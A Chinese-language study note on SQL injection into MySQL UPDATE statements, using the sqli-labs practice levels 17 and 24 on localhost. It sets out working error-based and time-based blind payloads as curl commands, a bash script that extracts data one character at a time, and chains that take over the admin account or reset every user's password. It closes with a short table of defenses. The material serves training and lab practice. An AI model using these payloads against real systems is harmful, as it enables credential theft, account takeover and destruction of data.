


# 08-UPDATE 注入

> 前置基础：[[../01-整数型注入|整数型注入]] · [[../03-报错注入|报错注入]] · [[../04-布尔盲注|布尔盲注]]
>
> 总目录：[[../SQL总目录|SQL 总目录]] · 本目录 [[mysql结构总目录|mysql结构 总目录]]
>
> 工具箱：`~/hackingtools/web/injection/sqlinject`（工具库位于仓库外 `/home/a/hackingtools`）
>
> sqli-labs 对照：less-17（UPDATE 场景原型，注入点在 POST password）、less-24 第二阶段

## 一、update 语句结构与闭合

标准改密 SQL：

```sql
UPDATE users SET password='新密码' WHERE username='当前用户'
```

语句解剖与可注位置：



对应漏洞代码（less-17 原型）：

```php
$uname = check_input($_POST['uname']);        // 用户名被严格校验
$passwd = $_POST['passwd'];                   // 密码原样拼接 ← 注入点
$sql = "UPDATE users SET password='$passwd' WHERE username='$uname'";
mysql_query($sql);
```

与 select 的两个根本区别：

1. **没有结果集回显**——union 无处安放，页面只会显示"修改成功"或错误提示；五步方法论中的 union 路线整体不可用，必须走报错或盲注载体
2. **有真实副作用**——payload 必须保证语法完整，否则整条语句失败、什么都改不了；反过来，恶意 WHERE 条件会真实修改数据（第四节越权）

## 二、确认 UPDATE 位闭合

第一步永远是验证参数确实原样拼接进了 SQL。UPDATE 场景的"确认注入"用报错函数做探针最直接：

```bash
# less-17: 用户名固定 admin（被 check_input 校验），密码框为注入点
# passwd 提交: ' and updatexml(1,concat(0x7e,user()),1)#
curl -s "http://127.0.0.1/sqli-labs/Less-17/" \
     -d "uname=admin&passwd=admin' and updatexml(1,concat(0x7e,user()),1)#&submit=Submit"
```

判断逻辑表：

| 现象 | 结论 |
|------|------|
| XPATH syntax error: '~root@localhost' | 单引号字符型闭合成功，且报错回显开启 → 走报错路线 |
| MySQL 语法错误信息 | 引号生效但 payload 结构不对，调整闭合 |
| 页面无变化显示修改失败 | 可能无回显，改用时间盲注探针 `sleep(5)` 看耗时 |
| 完全静默"修改成功" | 语句可能未按预期执行，先提交一个必然语法错误的值对照 |

对照实验（区分"没注入"与"注入了但没回显"）：

```bash
# 对照 A：必然语法错误 → 若页面报错说明错误能透出
curl -s "http://127.0.0.1/sqli-labs/Less-17/" \
     -d "uname=admin&passwd='''&submit=Submit"

# 对照 B：时间探针 → 耗时 5 秒说明代码确实在执行我们的输入
curl -s -o /dev/null -w "%{time_total}\n" \
     "http://127.0.0.1/sqli-labs/Less-17/" \
     -d "uname=admin&passwd=admin' and sleep(5)#&submit=Submit"
```

探测结果分支：



### 报错函数三选一

UPDATE 位对报错函数没有特殊偏好，三者任选，按环境兼容性排序：

| 函数 | payload 骨架 | 版本要求 | 特点 |
|------|-------------|---------|------|
| updatexml | `' or updatexml(1,concat(0x7e,(子查询)),1) or '` | MySQL 5.1+ | 最常用 |
| extractvalue | `' or extractvalue(1,concat(0x7e,(子查询))) or '` | MySQL 5.1+ | 与 updatexml 等价 |
| floor+rand | `' or (select count(*) from information_schema.tables group by concat(0x7e,(子查询),floor(rand(0)*2))) or '` | 全版本 | 兼容老版本但 payload 长 |

floor 版 curl 示例（updatexml 被单独过滤时的备胎）：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-17/" \
     -d "uname=admin&passwd=' or (select count(*) from information_schema.tables group by concat(0x7e,database(),floor(rand(0)*2))) or '&submit=Submit"
# Duplicate entry '~security1' for key 'group_key'
```

## 三、SET 与 WHERE 两种位置的打法

### 注入点在 SET 值（less-17 形态）

闭合 SET 的字符串后，剩余的 `WHERE username='...'` 部分必须保持合法——不能简单截断了事。两种思路：

```sql
-- 思路一: or 补全式（最稳）
新密码值填: ' or updatexml(1,concat(0x7e,database()),1) or '
拼出: UPDATE users SET password='' or updatexml(...) or '' WHERE username='xxx'
      → 表达式合法，报错回显触发

-- 思路二: 多列更新式
新密码值填: xxx', admin='hacked
拼出: UPDATE users SET password='xxx', admin='hacked' WHERE ...
      → 可篡改任意其他字段
```

### 注入点在 WHERE 条件

```php
$sql = "UPDATE users SET password='$pass' WHERE username='$username'";
```

WHERE 位置可以自由构造条件甚至子查询：

```sql
-- 报错带数据（尾部 # 截断引号）
username 填: ' and updatexml(1,concat(0x7e,database()),1)#

-- 时间盲注
username 填: ' or if(ascii(substr(database(),1,1))=115,sleep(5),0)#
```

### 两种位置对比

| 对比项 | 注入点在 SET | 注入点在 WHERE |
|--------|-------------|---------------|
| 截断自由度 | 低——必须保住 WHERE 部分语法 | 高——尾部可直接 `#` 注释 |
| 副作用 | 可能意外改写其他字段 | 可能全表更新 |
| payload 风格 | `' or expr or '` 补全式为主 | 经典 select 式几乎通用 |
| 判断技巧 | 页面"修改成功"与否差异 | 同左 |

### 子查询提数据的通用模板

无论 SET 还是 WHERE 位置，报错子查询模板一致，五步方法论的信息路径不变：

```sql
(select database())
(select group_concat(table_name) from information_schema.tables where table_schema=database())
(select group_concat(column_name) from information_schema.columns where table_name='users')
(select group_concat(username,0x3a,password) from users)
-- 套壳: ' or updatexml(1,concat(0x7e,(上面的子查询)),1) or '
```

## 四、curl 完整流程：报错路线五步替代

以下针对 less-17 全程可执行。"探测列数"步骤在本场景同样不存在（UPDATE 无结果集），从爆库直接开始。

### 第 1 步替代：确认闭合（见第二节）

### 第 2 步替代：跳过列数探测

UPDATE 不产生结果集，无需知道列数。

### 第 3 步：爆库 database()

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-17/" \
     -d "uname=admin&passwd=' or updatexml(1,concat(0x7e,database()),1) or '&submit=Submit"
# XPATH syntax error: '~security'
```

### 第 4 步：information_schema 爆表

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-17/" \
     -d "uname=admin&passwd=' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1) or '&submit=Submit"
# '~emails,referers,uagents,users'
```

### 第 5 步：爆列提取数据

```bash
# 爆列名
curl -s "http://127.0.0.1/sqli-labs/Less-17/" \
     -d "uname=admin&passwd=' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users')),1) or '&submit=Submit"
# '~id,username,password'

# 提取数据，substr 分段防 32 字符截断
curl -s "http://127.0.0.1/sqli-labs/Less-17/" \
     -d "uname=admin&passwd=' or updatexml(1,concat(0x7e,substr((select group_concat(username,0x3a,password) from users),1,30)),1) or '&submit=Submit"

curl -s "http://127.0.0.1/sqli-labs/Less-17/" \
     -d "uname=admin&passwd=' or updatexml(1,concat(0x7e,substr((select group_concat(username,0x3a,password) from users),31,30)),1) or '&submit=Submit"
```

注意 curl POST 数据里的 `#` 与空格在 `-d` 中不需 URL 编码（application/x-www-form-urlencoded 下 curl 会原样发送，多数 PHP 环境可直接处理）；若目标环境解析异常，把空格换 `%20`、`#` 换 `%23` 再试。

## 五、提权风险：万能改密与账号接管

UPDATE + WHERE 组合的经典越权写法。假设用户名可控（或经 [[04-二次注入|二次注入]] 落到此处）：

```sql
-- 输入: admin'#
UPDATE users SET password='攻击者的新密码' WHERE username='admin'#'
-- # 后全部注释 → 只改真实 admin 的密码 → 定向账号接管

-- 输入: ' or '1'='1
UPDATE users SET password='我的新密码' WHERE username='' or '1'='1'
-- WHERE 恒真 → 全表所有用户密码被改成同一个值！
```

curl 验证定向接管（less-24 第二阶段的等价形态）：

```bash
# 以自己的账号身份调用改密接口，但 username 参数注入指向 admin
curl -s "http://127.0.0.1/pass_update.php" \
     -d "username=admin'#&password=hacked123&submit=Submit"

# 随后用 admin/hacked123 登录验证接管成功
curl -s "http://127.0.0.1/login.php" \
     -d "username=admin&password=hacked123&submit=Login"
```

| payload | 效果 | 风险 |
|---------|------|------|
| `admin'#` | 定向接管 admin | 可控 |
| `admin'-- -` | 同上 | 可控 |
| `' or '1'='1` | 全表更新 | 毁靶场，先备份 |
| `' and 1=2#` | 不更新任何行 | 用于安全验证存在性 |

越权链路全景：


这条链路对应真实业务里"改密接口信任客户端传入的用户名"类缺陷，CTF 与实战都是高频得分点。CTF 中打全表更新前务必备份数据库（见第九节自建靶场部分的综合训练章）。

## 六、UPDATE 盲注

无报错回显时的两条侧信道：

```sql
-- 时间盲注（SET 或 WHERE 位置均可）
' or if(substr(database(),1,1)='s',sleep(4),0) or '

-- 行数差异盲注: 观察"密码已修改"提示与否
' or (select if(length(database())=8,1,0)) or '
-- 条件匹配时语句正常执行返回成功；不匹配时追加恒假条件使其更新 0 行，页面表现不同
```

时间版 curl 判断：

```bash
curl -s -o /dev/null -w "%{time_total}\n" \
     "http://127.0.0.1/sqli-labs/Less-17/" \
     -d "uname=admin&passwd=' or if(ascii(substr(database(),1,1))=115,sleep(4),0) or '&submit=Submit"
# 约 4.x 秒 → 首字符 s
```

时间版逐位猜解脚本（bash）：

```bash
#!/bin/bash
URL="http://127.0.0.1/sqli-labs/Less-17/"
result=""
for pos in $(seq 1 8); do
  low=32; high=126
  while [ $low -lt $high ]; do
    mid=$(( (low + high) / 2 ))
    t=$(curl -s -o /dev/null -w "%{time_total}" \
        -d "uname=admin&passwd=' or if(ascii(substr(database(),${pos},1))>${mid},sleep(3),0) or '&submit=Submit" \
        "$URL")
    if [ "$(echo "$t > 1.5" | bc)" -eq 1 ]; then
      low=$(( mid + 1 ))
    else
      high=$mid
    fi
  done
  result="${result}$(printf \\$(printf '%03o' $low))"
  echo "[+] pos ${pos}: ${result}"
done
echo "database = ${result}"
```

行数差异盲注的信号构造细节：让"条件真"时更新恰好 1 行、条件假时更新 0 行，页面"密码修改成功"与"修改失败"即为布尔信号。payload 骨架：

```sql
' or if(length(database())=8, username='x', 1=2) or '
```

注意时间盲注在 UPDATE 上要格外小心：sleep 放在影响多行的位置会让每行都延迟，大表上拖死数据库；测试环境无所谓，实战需评估。

### 与二次注入的联动：less-24 全链路

less-24 是 UPDATE 注入最完整的实战剧本：注册阶段把带引号的用户名存进库（转义只发生在拼接瞬间），改密阶段该用户名被原样取出拼进 UPDATE：

```bash
# 第 1 步：注册用户名 admin'# 的账号（转义后安全入库，存的是原始字符）
curl -s "http://127.0.0.1/sqli-labs/Less-24/pass.php" \
     --data-urlencode "reg_username=admin'#" \
     --data-urlencode "reg_password=p@ss123" \
     --data-urlencode "submit=register"

# 第 2 步：以 admin'# 登录
curl -s "http://127.0.0.1/sqli-labs/Less-24/login.php" \
     --data-urlencode "login_user=admin'#" \
     --data-urlencode "login_password=p@ss123"

# 第 3 步：改密。服务端从 session 取出的 username 拼进 UPDATE：
# UPDATE users SET password='newpass' WHERE username='admin'#'
# → 实际改的是真实 admin 的密码
curl -s "http://127.0.0.1/sqli-labs/Less-24/pass.php" \
     --data-urlencode "password=newpass" \
     --data-urlencode "submit=change"

# 第 4 步：用 admin/newpass 登录验证接管
curl -s "http://127.0.0.1/sqli-labs/Less-24/login.php" \
     --data-urlencode "login_user=admin" \
     --data-urlencode "login_password=newpass"
```

这条链路不需要任何报错或盲注——UPDATE 本身的副作用就是利用效果。详见 [[04-二次注入|二次注入]]。

### UPDATE 与 INSERT 场景的通用差异表

| 对比项 | INSERT（[[02-UA注入|02-UA注入]]） | UPDATE（本章） |
|--------|-----------------------------------|----------------|
| 结果集回显 | 无 | 无 |
| 副作用 | 新增脏数据一行 | **修改现有数据，破坏性更大** |
| 截断自由度 | 需补齐括号列数 | SET 位保结构，WHERE 位自由截断 |
| 盲注侧信道 | 页面是否报错 | 受影响行数 / 成功提示差异 |
| payload 模板 | VALUES 内闭合补全 | `' or expr or '` 补全式最稳 |

## 七、易错点

| 易错点 | 说明 |
|-------|------|
| 尝试 union | UPDATE 无结果集，union 不可用 |
| payload 破坏 SQL 导致静默失败 | mysql_query 失败可能不打印错误，误判为没注入；先用必然报错的 payload 校准 |
| `or '1'='1` 全表更新毁库 | 所有用户密码被改成同一值导致后续关卡异常，先备份 security 库 |
| 忘记 less-17 有前置校验 | uname 被 check_input 过滤，注入点只能在 passwd |
| 引号不配对 | UPDATE 对语法完整性要求高，`or '` 结尾补齐比硬截断更稳 |
| 改完密码忘记原密码 | 把自己锁在靶场外；改密类测试前记录原始哈希便于还原 |

## 八、防御

| 措施 | 说明 |
|------|------|
| 参数化查询 | prepared statement 绑定 SET 值与 WHERE 条件，根治 |
| 按 session 主键定位用户 | 更新目标永远来自服务端 session 的 id，不从客户端输入推断 |
| 独立校验每一层 | 改密接口对旧密码独立校验后再允许写入 |
| 受影响行数监控 | UPDATE 影响行数异常（超过 1）即告警回滚 |
| 数据库账号最小权限 | 应用账号只授予必要表的必要操作 |

## 九、自动化：sqlinject.py 工具

本章对应命令已内置在工具中，路径 `~/hackingtools/web/injection/sqlinject`（用法详见 `~/hackingtools/web/injection/sqlinject`（工具库位于仓库外 `/home/a/hackingtools`））：

```bash
# POST 型 UPDATE 位报错注入：指定注入参数为 passwd
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-17/" \
  --data "uname=admin&passwd=x" -p passwd

# 无报错回显时切时间模式
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-17/" \
  --data "uname=admin&passwd=x" -p passwd \
  --technique T --time-sec 4

# 叠加过滤时组合 tamper（如目标同时过滤空格与 and/or）
python3 ~/hackingtools/web/injection/sqlinject \
  -u "http://127.0.0.1/sqli-labs/Less-17/" \
  --data "uname=admin&passwd=x" -p passwd \
  --tamper space2comment,doublewrite
```

两点提醒：

1. UPDATE 位工具有真实写风险，跑全表更新类 payload 前先备份库（`mysqldump ... > backup.sql`），工具的 `--safe-update` 类开关若存在则开启
2. 万能改密（`admin'#`）属于逻辑利用而非数据提取，工具不会替你发现这类业务链路——手工分析请求语义仍是不可省略的一步，依据具体情况分析优先于自动化

### 关联阅读

- 二次注入与改密的完整链路见 [[04-二次注入|二次注入]]
- INSERT 位的同族打法见 [[02-UA注入|UA注入]]
- 报错注入原理细节见 [[../03-报错注入|报错注入]]
- 场景决策总表与综合案例见 [[09-综合训练|综合训练]]

---
**返回** [[../SQL总目录|SQL 总目录]] · [[mysql结构总目录|mysql结构 总目录]]
